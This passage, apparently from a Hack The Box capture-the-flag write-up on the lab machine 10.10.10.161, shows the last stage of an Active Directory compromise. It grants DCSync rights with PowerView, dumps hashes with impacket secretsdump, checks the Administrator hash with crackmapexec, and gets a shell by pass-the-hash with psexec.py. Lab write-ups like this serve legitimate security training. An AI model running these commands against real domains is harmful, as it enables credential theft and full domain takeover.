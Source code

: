 ```

Time to abuse it.

```
$SecPassword = ConvertTo-SecureString 'muzec123' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('HTB\itmuzec', $SecPassword)

Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity itmuzec -Rights DCSync
```

Back to our machine now let run `secretsdump.py` from impacket.

```
secretsdump.py htb.local/itmuzec:muzec123@10.10.10.161
```

![image](https://user-images.githubusercontent.com/69868171/125169026-4004b780-e1a0-11eb-92d1-615b1ace82a1.png)

Confirming the Administrator hash with `crackmapexec` .

```
crackmapexec smb 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

![image](https://user-images.githubusercontent.com/69868171/125169088-8f4ae800-e1a0-11eb-896c-9491bb7d0654.png)


Boom Now let use `psexec.py` from Impacket to perform a pass the hash attack with the Administrator’s hash.

```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![image](https://user-images.githubusercontent.com/69868171/125169229-1ef09680-e1a1-11eb-9cea-87ca9366b67a.png)

We have shell and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
